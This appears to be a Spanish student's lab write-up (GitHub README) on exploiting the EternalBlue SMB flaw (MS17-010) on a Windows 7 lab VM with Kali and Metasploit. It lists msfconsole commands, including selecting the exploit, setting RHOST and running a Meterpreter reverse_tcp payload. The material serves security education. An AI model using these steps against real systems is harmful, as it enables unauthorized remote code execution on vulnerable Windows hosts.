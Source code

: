 # SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8
- Windows con 10.0.2.11/8

## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar y deescargar payloads y ejecutarlos.

*msfconsole



Usaremos su buscador para encontrar el exploit:

*search eternalblue


De los resultados elegiremos la primera opción:

#  Name                                      Disclosure Date  Rank     Check  Description
-  ----                                      ---------------  ----     -----  -----------
0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

*use 0

Nos duvuelve:

*No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp


Vemos que parámetros son requeridos con el comando:
*options


nos pide datos del equipo remoto o *RHOST*. Le indicamos la ip del equipo remoto 10.0.2.11


Podemos ver una serie de payloads a ejecutar:


Vamos a realizar la prueba con el siguiente *windows/x64/meterpreter/reverse_tcp*:




Le indicamos que se ejecute con *run




Podemos ver las distintas opciones que nos ofrece este exploit con *options

